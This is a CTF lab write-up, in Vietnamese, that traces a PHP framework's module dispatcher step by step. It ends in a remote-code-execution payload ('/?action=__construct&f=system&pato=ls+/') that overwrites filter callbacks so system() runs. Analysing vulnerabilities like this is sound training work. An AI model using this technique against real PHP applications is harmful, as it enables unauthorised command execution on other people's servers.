# WEEK 1

## Iox Framework





Đầu tiên debug và phân tích code



dòng thứ 3 biến `$_GET['module']` là biến lấy giá trị từ người dùng thông qua cái key module, nếu như người dùng có nhập vào thì trả về giá trị người dùng nhập còn lại trả về “example”.



đoạn code thứ 7 thực hiện check và `in_array` tìm `$module` trong đóng `$enabled_modules`, nếu như `$module` tức là biến lấy giá trị từ người dùng thông qua cái key `module`  =  `$enabled_modules` có giá trị là `"example"` thì trả về true và vào if còn lại trả về trạng thái 404.

vì đề bài có gợi ý Exploit the vulnerable module dispatcher và chúng ta đi search thử





đây là giả thuyết của chúng ta ban đầu khi test 

có 2 tham số get với key là `module` và `action`
ở đoạn code `index.php` 
đoạn if số 3 nếu ta chèn vào 1 chuỗi nó sẽ trả về chuỗi ta vừa chèn còn nếu không nó trả về `example`
đoạn code số 7 nếu `module = example` thì vào 

vậy nếu ta chèn 1 chuỗi khác ví dụ `module = example1` nó sẽ trả về chuỗi này và không vào được đoạn if số 7 vậy nên mình đoán là không bị dính bug ở đây.
thử bypass bằng cách chèn thêm một module nữa 
```http
GET /?module=&module=example&action=quickstart
```
có vẻ nó chỉ trả về module thứ 2 là `example`.

tiếp theo thử key `action` nhưng vấn đề là bị đoạn if 
```php
function preventXSS($input) {
    return htmlspecialchars($input, ENT_QUOTES);
}
```
ngăn chặn.
tiếp tục suy nghĩ cách bypass `action`

sau khi đọc AI tôi đã nghĩ là có thể chèn vào dòng số 8 `require sprintf("modules/%s.php", $module);` này vào biết module một lệnh `../..` để pathtraversal vì `require` nên có thể dẫn đến rce nhưng vấn đề là đoạn số 7 
```php
if (in_array($module, $enabled_modules, true)) {
```
nó check nghiêm ngặt nên không thể chèn đoạn đó nếu chèn nó trả về `false`



tiếp tục hành trình suy luận chúng ta sẽ bypass cái đoạn if này, ta biết rằng khi ta nhập vào thì nó sẽ trả về chuỗi của chúng ta còn lại trả về `"example"` vậy sẽ ra sao nếu chúng ta không nhập và để cho nó trả về `"example"`





ta debug và thấy rằng nó đã chạy vào if 

và thử chèn thêm 1 cái key và value khác





vậy chúng ta biết là chỉ cần không chèn `value` vào cái key `module` là dù bất cứ cái endpoint như nào chúng ta cũng có thể vào if

đặt trường hợp không có `action=quickstart` thì sao 

nó vẫn sẽ chạy như bình thường cho tới khi vào hàm này



nó sẽ được gán là index rồi chạy xuống dòng 36 

sau đó vì `$action` là index nên nó nhảy qua hàm index (class `ExampleController` là con của lớp cha `CoreController`)



rồi nó chạy code index.html và trả về 200 mà index.html chính là giao diện ban đầu 



tức là phải có `action=quickstart` thì nó mới xử lí những cái tiếp theo

tiếp theo chú ý đến function này 

**controller.php:**





chỗ này định nghĩa một `__construct` trong file `controller.php`

**example.php:**



Vì đoạn 17 của file `example.php` khai báo 1 lớp con nó sẽ kiếm __construct trong lớp con `(ExampleController)` nếu không có, nó kiếm trong lớp cha `(ExampleController)`

và nó sẽ thêm các hàm bảo vệ được viết riêng ra



sau khi gọi  `__construct` trong file `controller.php` nó sẽ khai báo `$filter` với kiểu dữ liệu là 1 mảng ở đoạn code 16 vì lúc đầu filter không có gì cả nên nó sẽ empty và rớt vào else và gọi hàm config gán cho filters 2 hàm là `"isString"`, `"preventXSS"` ở đoạn code thứ 12,13 file `controller.php`

Vậy sẽ ra sao nếu chúng ta kiểm soát được cái `$filters` này và chèn bất cứ hàm nào chúng ta muốn và đoạn code ở dòng thứ 19 file `controller.php` sẽ cho ta làm điều đó.



vậy làm sao để chạy vào đoạn if thứ 18 và gán các hàm chúng ta muốn vào `$filters`



chúng ta coi lại function ở file controller, đoạn code thứ 29 nó sẽ gán một `$_REQUEST["action"]` mà biến `$_REQUEST["action"]` do chúng ta kiểm soát.

nếu chúng ta gọi lại  `__construct`  thông qua `$_REQUEST["action"]` code sẽ gán `$action = "__construct"` sau đó code dòng 36 sẽ `$this->{$action}($_REQUEST)` sẽ tương đương với `$this->(__construct)([mangmotchieu])`





tóm lại nó sẽ thành `$this->(__construct)([action = "__construct",pato="123",pato1="234"])` lúc này `__construct` sẽ là một mảng chứa 3 phần tử với 3 key và 3 value

sau đó nó gọi hàm `__construct` và truyền vào 3 key và 3 value ấy 



ở đoạn code thứ 16 => filters sẽ chứa mảng một chiều `[action = "__construct",pato="123",pato1="234"]` và vì nó không rỗng nên ta có thể gán các key và value này cho biến `$filters` thông qua đoạn code thứ 19 và ghi đè lên các hàm kiểm tra cũ `("isString", "preventXSS")` 



sau đó đoạn thứ 42 hàm `is_callable` check có phải hàm chuẩn không thì `__construct,123,234` không có thằng nào là hàm chuẩn hết nên nó trả về false hết 

vậy ta sẽ chèn vào các sink nguy hiểm như system hay passthru để nó trả về hàm hợp lệ sau đó 

đoạn code thứ 43 này sẽ gọi hàm đó thông qua filter và chèn input là cái value ta có thể kiểm soát vào

payload của chúng ta là : `/?action=__construct&f=system&pato=ls+/` 





sau khi input là ls -al, và gọi hàm system thông qua hàm `call_user_func` sau đó truyền input vô thì lúc này ta đã rce thành công.



đọc thêm tại 

## Meme

